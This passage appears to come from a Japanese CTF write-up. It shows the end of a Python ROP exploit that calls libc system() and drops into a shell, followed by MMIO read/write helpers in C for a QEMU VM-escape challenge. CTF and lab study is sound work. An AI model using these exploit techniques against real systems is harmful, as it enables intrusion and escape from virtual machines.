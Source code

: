 ```python
    next(libc.gadget(b"ret")),
    libc.symbols()[b'system'],
], map=p64)

assert is_gets_safe(payload)

sock.sendline(payload)

sock.sendline("echo YOU GOT SHELL")
sock.sh()

code.interact(local=locals())
```

## [pwn] BabyQEMU

ホスト側に自明なBoFを引き起こすデバイスが追加されたQEMUに対して攻撃を行い、VM Escapeを行う。
デバイスはpciに生えているので、ユーザランドからmmapしてアクセスすれば使うことができる。次のようなライブラリを作った。

```c
volatile uint32_t *mmio_base;

void set_offset(uint64_t offset) {
  mmio_base[MMIO_SET_OFFSET_LO / 4] = (uint32_t)(offset & 0xFFFFFFFF);
  mmio_base[MMIO_SET_OFFSET_HI / 4] = (uint32_t)((offset >> 32) & 0xFFFFFFFF);
}

void write_u32(uint64_t offset, uint32_t u32) {
  set_offset(offset);
  mmio_base[MMIO_SET_DATA / 4] = u32;
}

void write_u64(uint64_t offset, uint64_t u64) {
  write_u32(offset, u64 & 0xffffffff);
  write_u32(offset + 4, (u64 >> 32) & 0xffffffff);
}

void write_at_u64(uint64_t offset, uint64_t u64) { write_u64(offset * 8, u64); }
uint32_t read_u32(uint64_t offset) {
  set_offset(offset);
  uint32_t ret = mmio_base[MMIO_GET_DATA / 4];

  return ret;
}

uint64_t read_u64(uint64_t offset) {
  uint32_t lo = read_u32(offset);
  uint32_t hi = read_u32(offset + 4);

  return (((uint64_t)hi) << 32) | ((uint64_t)lo);
}

uint64_t read_at_u64(uint64_t offset) {
  return read_u64(offset * 8);
}
```
